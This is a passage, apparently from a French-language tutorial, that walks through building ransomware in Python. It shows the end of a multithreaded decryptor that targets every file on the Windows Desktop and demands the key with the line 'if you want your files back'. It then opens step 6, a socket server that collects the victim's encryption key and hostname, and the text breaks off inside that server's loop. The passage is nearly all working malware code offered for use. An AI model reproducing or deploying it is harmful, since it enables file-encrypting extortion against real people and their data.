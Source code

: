 ```python
                    f.write(xor_byte.to_bytes(1, 'little'))
                
                # Incrementer l'index de la clé
                if key_index >= max_key_index:
                    key_index = 0
                else:
                    key_index += 1
            
            print(f'{file} successfully decrypted')
        except:
            print(f'Failed to decrypt file :(')
        q.task_done()

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 512 // 8  # 512 bit encryption = 64 bytes
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à décrypter
print("Preparing files...")
desktop_path = os.environ['USERPROFILE'] + '\\Desktop'
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(f'{desktop_path}\\{f}') and f != __file__[:-2] + 'exe':
        abs_files.append(f'{desktop_path}\\{f}')
print("Successfully located all files!")

# Demander la clé de décryptage
key = input("Please enter the decryption key if you want your files back: ")

# Créer la file d'attente des fichiers à décrypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le décryptage
for i in range(10):
    t = threading.Thread(target=decrypt, args=(key,), daemon=True)
    t.start()

q.join()
print('Decryption is completed!!!')
```

#### 6. Création du script de serveur (server.py)

Ce script crée un serveur pour recevoir la clé de chiffrement et le nom d'hôte du client.

```python
import socket

IP_ADDRESS = '192.168.1.85'
PORT = 5678

print('Creating Socket')
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((IP_ADDRESS, PORT))
    print('Listening for connections...')
    s.listen(1)
    conn, addr = s.accept()
    print(f'Connection from {addr} established!')
    with conn:
        while True:
```